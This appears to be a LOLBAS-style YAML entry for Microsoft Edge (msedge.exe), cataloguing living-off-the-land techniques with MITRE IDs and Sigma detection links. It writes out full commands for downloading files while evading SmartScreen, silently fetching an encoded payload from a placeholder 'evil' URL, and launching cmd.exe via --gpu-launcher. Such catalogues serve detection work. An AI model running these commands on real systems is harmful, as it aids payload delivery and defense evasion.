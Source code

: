 ```yaml
---
Name: Msedge.exe
Description: Microsoft Edge browser
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: msedge.exe https://example.com/file.exe.txt
    Description: Edge will launch and download the file. A harmless file extension (e.g. .txt, .zip) should be appended to avoid SmartScreen.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --headless --enable-logging --disable-gpu --dump-dom "http://example.com/evil.b64.html" > out.b64
    Description: Edge will silently download the file. File extension should be .html and binaries should be encoded.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
    Description: Edge spawns cmd.exe as a child process of msedge.exe and executes the ping command
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
Full_Path:
  - Path: c:\Program Files\Microsoft\Edge\Application\msedge.exe
  - Path: c:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_msedge_arbitrary_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_chromium_headless_file_download.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1478116126005641220
  - Link: https://twitter.com/mrd0x/status/1478234484881436672
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

